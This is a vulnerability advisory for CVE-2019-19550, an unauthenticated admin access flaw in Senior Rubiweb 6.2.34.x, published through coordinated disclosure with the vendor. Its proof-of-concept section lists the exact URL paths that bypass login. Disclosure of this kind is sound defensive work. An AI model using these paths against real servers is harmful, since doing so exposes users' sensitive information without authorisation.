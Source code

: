 # CVE-2019-19550

------------------------------------------

## [Description]

Remote Authentication Bypass in Senior Rubiweb 6.2.34.28 and 6.2.34.37 allows admin access to sensitive information of affected users using vulnerable versions. The attacker only needs to provide the correct URL.

------------------------------------------

## [Important Dates]

- Announcement (to Vendor): 2019-12-02
- Public disclosure date: 2020-01-30

------------------------------------------

## [Vulnerability Type]

Incorrect Access Control

------------------------------------------

## [Vendor of Product]

Senior

------------------------------------------

## [Affected Product Code Base]

- Rubiweb - 6.2.34.37
- Rubiweb - 6.2.34.28
- Other versions may be affected, especially in the same family (not tested yet)

------------------------------------------

## [Affected Component]

Rubiweb

------------------------------------------

## [Attack Type]

Remote

------------------------------------------

## [Impact Information Disclosure]

True

------------------------------------------

## [Attack Vectors]

Access to sensitive information is publicly available without special requirements (only the correct URI)

------------------------------------------

## [Has vendor confirmed or acknowledged the vulnerability?]

True

------------------------------------------

## [PoC - Proof of Concept]

1. Simply try to connect to authenticated portal to confirm the existence and version of affected product: 
   - hXXp://subdomain.customer.tld:8080/rubiweb/
2. Access the vulnerable page (admin without authentication):
   - hXXp://subdomain.customer.tld:8080/rubiweb/conector?ACAO=EXESENHA&SIS=FP&LOGINKIND=1
   - hXXp://subdomain.customer.tld:8080/rubiweb/conector?ACAO=ENTRANCEREL&SIS=FP&NOME=FPIN103.ANU

------------------------------------------

## [Discoverer]

Mauricio Santos (R&D UnderProtection) and Hesron Hori (R&D UnderProtection)

------------------------------------------

## [Thanks to]

Senior - Vendor's Information Security Team who collaborated to a coordinated disclosure

------------------------------------------

## [Reference]

- https://www.underprotection.com.br
- https://documentacao.senior.com.br/tecnologia/6.2.34/index.htm
- https://documentacao.senior.com.br/tecnologia/6.2.34/index.htm#central-de-configuracao/CfgWebApplicationsForm.htm%23CfgWebApplicationsForm_edtUserName
